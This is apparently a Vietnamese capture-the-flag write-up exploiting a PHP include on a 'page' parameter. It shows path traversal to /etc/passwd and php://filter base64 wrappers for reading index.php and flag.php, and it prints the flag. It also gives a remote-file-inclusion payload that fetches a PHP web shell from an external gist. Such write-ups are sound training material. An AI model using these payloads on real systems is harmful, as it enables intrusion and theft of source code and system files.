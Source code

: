 # Mỳ Tôm Thanh Long 
Giao diện trang web như sau: 
![Alt text](image.png)
>Đi dạo một vòng website thì mình thấy nó hoạt động dựa vào trang chủ rồi import các page , có tên được truyền từ URL => 
![Alt text](image-1.png)
Mình nghĩ ngay đến LFI VÀ RFI 
đầu tiên mình phải comfirm nó bị **Path Traversal** => tiến hành fuzzing để đọc  file ** /etc/passwd ** 

thử payload  : 
```
?page=../..pages/home.php
```
nó log ra lỗi => là nó dùng hàm include , mà hàm này nếu cofig *allow_url_include* bật thì mình có thể rce ( mình đoán src code của file flag.php chứa flag , chứ đâu web đâu ai đặt tên category là flag đúng không :>)
fuzz thử 1 web shell php lên xem thử : 
payload : 
```
page=https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
```
nó trả về  : 
![Alt text](image-2.png)
vậy là tham số này nó đã off -> không rce được , chúng ta cùng nghĩ cách khác 

Bắt đầu ném vào intruder trong Burp để fuzz đọc file /etc/passwd
payload position chính là value của parameter page 
![Alt text](image-3.png)
word list thì mình lấy của burp luôn -> nhớ đổi {FILE} thành /etc/passwd bằng chắc năng *match/replace* trong payload processing 
kết quả :
![Alt text](image-4.png)
bước đầu mình đã comfirm được nó bị path travesal 
Không RFI được thì mình test LFI -> mình nghĩ đến PHP wrapper để đọc file 
payload : 
```
php://filter/convert.base64-encode/resource=index.php
```
output : 
![Alt text](image-5.png)
decode đoạn base64 đó ta được  src của index.php 
![Alt text](image-6.png)
giờ ta thử đọc flag.php xem có đúng mình đoán không : >  flag.php thì nằm trong folder pages nên payload là :
```
php://filter/convert.base64-encode/resource=pages/flag.php
```
output:
![Alt text](image-7.png)
send nó qua Decoder 
và đã có flag 
![Alt text](image-8.png)
# FLAG 
**  KCSC{Lan_Dau_Tien_Trai_Thanh_Long_Co_Trong_KCSC:))} **
